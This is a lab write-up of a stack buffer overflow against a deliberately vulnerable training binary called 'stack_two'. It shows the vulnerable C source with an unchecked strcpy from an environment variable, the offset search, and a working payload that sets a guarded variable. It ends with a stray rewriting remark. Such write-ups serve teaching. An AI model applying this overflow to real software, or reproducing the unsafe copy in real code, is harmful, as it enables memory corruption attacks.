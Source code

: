 # Code Analysis:

## Code Execution:

```bash
./stack_two                                        
stack_two: please set the GREENIE environment variable
```

You must assign a value to the `GREENIE` environment variable.

```bash
export GREENIE='test'

./stack_two          
Try again, you received 0x00000000
```

## Source Code:

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[32];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("You have correctly modified the variable\n");
  } else {
      printf("Try again, you received 0x%08x\n", modified);
  }

}
```

1. The program initializes the 32-byte `buffer` with the value of the `GREENIE` environment variable.
2. The `modified` variable is initialized to 0.
3. If `modified` equals `0x0d0a0d0a`, the challenge is considered successful.

# Exploitation:

## How?

To set `modified` to `0x0d0a0d0a`, you need to:
- Determine the offset needed to reach `modified`.
- Insert the value `0x0d0a0d0a` after the offset.

## Demonstration:

### Finding the Offset

```bash
export GREENIE=$(python -c 'print("A" * 37)')

echo $GREENIE                                
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

./stack_two                                  
Try again, you received 0x00000041
```

The correct offset is 36 characters.

### Finding `0x0d0a0d0a`

There's no direct ASCII text representation of `0x0d0a0d0a`, so it must be input explicitly as `\x0d\x0a\x0d\x0a`. However, given Little Endian format, it should be input as `\x0a\x0d\x0a\x0d`.

### Payload:

```bash
export GREENIE=$(python2 -c 'print "A"*36 + "\x0a\x0d\x0a\x0d"')

./stack_two                                                     
You have correctly modified the variable
```

This revision should provide clearer and more accurate English translation of the original text.
